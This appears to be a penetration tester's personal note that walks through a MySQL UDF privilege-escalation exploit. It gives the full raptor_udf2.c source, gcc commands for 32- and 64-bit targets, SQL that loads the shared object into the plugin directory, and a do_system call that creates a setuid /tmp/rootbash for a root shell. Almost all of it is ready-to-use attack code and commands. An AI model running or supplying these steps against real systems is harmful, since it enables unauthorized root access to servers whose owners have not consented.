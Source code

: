 ![[Pasted image 20211229223508.png | 1000]]

[https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

```bash - kali
sudo apt update && sudo apt install default-libmysqlclient-dev
```

```bash - kali
mousepad raptor_udf2.c
```

**raptor_udf2.c**
```c - kali
#include <stdio.h>
#include <stdlib.h>
 
enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};
 
typedef struct st_udf_args {
        unsigned int arg_count; // number of arguments
        enum Item_result *arg_type; // pointer to item_result
        char **args; // pointer to arguments
        unsigned long *lengths; // length of string args
        char *maybe_null; // 1 for maybe_null args
} UDF_ARGS;
 
typedef struct st_udf_init {
        char maybe_null; // 1 if func can return NULL
        unsigned int decimals; // for real functions
        unsigned long max_length; // for string functions
        char *ptr; // free ptr for func data
        char const_item; // 0 if result is constant
} UDF_INIT;
 
int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
        if (args->arg_count != 1) {
                return(0);
        }
        system(args->args[0]);
        return(0);
}
 
char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
        return(0);
}
```

Transfer the above c file to target.

![[Python#Server]]

IF TARGET IS 64 bit version of debian, we need add -fPIC to the gcc command:

```bash - kali
gcc -g -c raptor_udf2.c -fPIC
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

---
IF TARGET IS 32 bit, remember to add -m32:
```bash - kali
gcc -g -c raptor_udf2.c -fPIC -m32
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc -m32
```
---
Transfer the files over the target.
[[Python#Server]]

Should have 3 files, like so:

![[Pasted image 20220401110417.png]]

Now log in locally:
```bash - kali
mysql -h localhost -u root -p
```

```sql - target
show databases;
```

```sql - target
use $DATABASE;
```

The first step in this process is to discover where this installation of MySQL stores its UDFs. 

```sql - target
show variables like 'plugin_dir';
```

![[Pasted image 20220401110825.png]]

In this case, the directory is **/usr/lib/mysql/plugin/**. We'll use this directory name in the steps that follow.

We must also determine whether the database has been misconfigured to allow insecure handling of files.

```sql - target
SHOW VARIABLES LIKE "secure_file_priv";
```

![[Pasted image 20220401110942.png]]

At this point, all elements are in place to exploit this misconfiguration and obtain a root shell.

==Pay attention to the directories below, and where your files are:==

==/tmp/Tools/ vs /tmp/ vs /var/www/==

```sql - target
create table foo(line blob);
```

```sql - target
insert into foo values(load_file('/<PATH_TO_FILE>/raptor_udf2.so'));
```

```sql - target
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
```

![[Pasted image 20220406222607.png]]

if the /usr/lib/mysql/plugin directory give you error, try: 

```sql - target
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
```

```sql - target
create function do_system returns integer soname 'raptor_udf2.so';
```

```sql - target
select * from mysql.func;
```

| name | ret |  dl | type |
| ---| --- | --- | --- |  
| do_system | 2 |  raptor_udf2.so | function |

```sql - target
select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
```

![[Pasted image 20211229224131.png | 1000]]

```sql - target
exit
```

```bash - target
/tmp/rootbash -p
```

![[Pasted image 20211229224227.png | 1000]]

